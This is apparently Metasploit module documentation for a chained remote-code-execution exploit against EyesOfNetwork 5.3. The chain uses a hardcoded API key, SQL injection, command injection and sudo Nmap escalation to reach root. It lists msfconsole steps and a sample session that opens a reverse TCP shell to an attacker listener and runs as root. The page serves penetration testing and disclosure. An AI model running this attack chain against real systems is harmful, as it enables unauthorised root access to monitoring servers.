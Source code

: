 ## Vulnerable Application

This module exploits multiple vulnerabilities in EyesOfNetwork version 5.3 and
prior in order to execute arbitrary commands as root.

The module first exploits a hardcoded admin API key in EyesOfNetwork API version
2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to
create a new user with admin privileges. If the generated key is not valid, the
admin API key is obtained via an SQL injection vulnerability affecting the same
API version (CVE-2020-8656).

Next, the module authenticates as the newly created user in order to abuse a
command injection vulnerability in the `target` parameter of the AutoDiscovery
functionality within the EON web interface (CVE-2020-8654). Specifically, it
writes an Nmap NSE script containing the payload to disk, and then activates
this script by launching an Nmap host discovery scan against the target. This
approach achieves privilege escalation because the default sudo configuration
permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid
credentials for a user with administrative privileges are required. However,
this module can bypass authentication via two methods, i.e. by generating an API
access token based on a hardcoded key, and via SQLI. This module has been
successfully tested on EyesOfNetwork 5.3 with API version 2.4.2.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

1. `SERVER_ADDR`. This option should be set in case the EyesOfNetwork server IP
   address is different from RHOST. This because the EON server IP is needed to
   generate the API key.

## Scenarios

```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path to EyesOfNetwork
   VHOST                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] Using generated API key: a496fb1025187066dc1e4e56197bd2db1a23c565f42b98df8ff55698442b6476
[+] Authenticated as user kY7Qn1gr8L
[*] Sending payload (428 bytes) ...
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:45897) at 2020-02-19 15:30:31 +0100

id
uid=0(root) gid=0(root) groups=0(root)
```

## References

1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
